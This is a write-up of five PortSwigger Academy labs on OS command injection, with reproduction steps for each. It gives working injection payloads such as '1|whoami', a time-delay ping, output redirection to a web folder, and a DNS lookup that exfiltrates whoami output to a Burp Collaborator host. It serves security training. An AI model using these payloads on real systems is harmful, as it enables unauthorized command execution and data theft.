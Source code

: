 # OS command injection

## OS command injection, simple case

### Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-simple) contains an OS command injection vulnerability in the product stock checker: The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response. 

### Reproduction and proof of concept

1. Use Burp Suite to intercept and modify a request that checks the stock level. 
2. Modify the `storeID` parameter, giving it the value `1|whoami`. 
3. Observe that the response contains the name of the current user.

### Exploitability

An attacker will need to execute the `whoami` command to determine the name of the current user.

----

## Blind OS command injection with time delays

### Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays) contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. 

### Reproduction and proof of concept

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the `email` parameter, changing it to: `email=x||ping+-c+10+127.0.0.1||`
3. Observe that the response takes 10 seconds to return.

### Exploitability

An attacker will need to exploit the blind OS command injection vulnerability to cause a 10 second delay. 

----

## Blind OS command injection with output redirection

### Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection) contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

    /var/www/images/

The application serves the images for the product catalog from this location. It is possible to redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file. 

### Reproduction and proof of concept

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to: `email=||whoami>/var/www/images/output.txt||`
3. Now use Burp Suite to intercept and modify the request that loads an image of a product.
4. Modify the filename parameter, changing the value to the name of the file specified for the output of the injected command: `filename=output.txt`
5. Observe that the response contains the output from the injected command.

### Exploitability

An attacker will need to execute the `whoami` command and retrieve the output. 

----

## Blind OS command injection with out-of-band interaction

### Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band) contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that is accessible. However, it is possible to trigger out-of-band interactions with an external domain.

### Reproduction and proof of concept

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to: `email=x||nslookup+x.burp-collab-subdomain||`
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified email parameter.

### Exploitability

An attacker will need to exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server._

_Note: The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator client to verify that your payload had indeed triggered a DNS lookup. _

----

## Blind OS command injection with out-of-band data exfiltration

### Description

This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

### Reproduction and proof of concept

1. Use Burp Suite Professional to intercept and modify the request that submits feedback.
2. Go to the Collaborator tab.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
4. Modify the `email` parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:

```
email=||nslookup+`whoami`.burp-collab-subdomain||
```
    
5. Go back to the Collaborator tab, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
6. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Collaborator tab. The full domain name that was looked up is shown in the Description tab for the interaction.
7. To complete the lab, enter the name of the current user.

### Exploitability

An attacker will need to execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator, and then enter the name of the current user to complete the lab. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server (or a C2)._


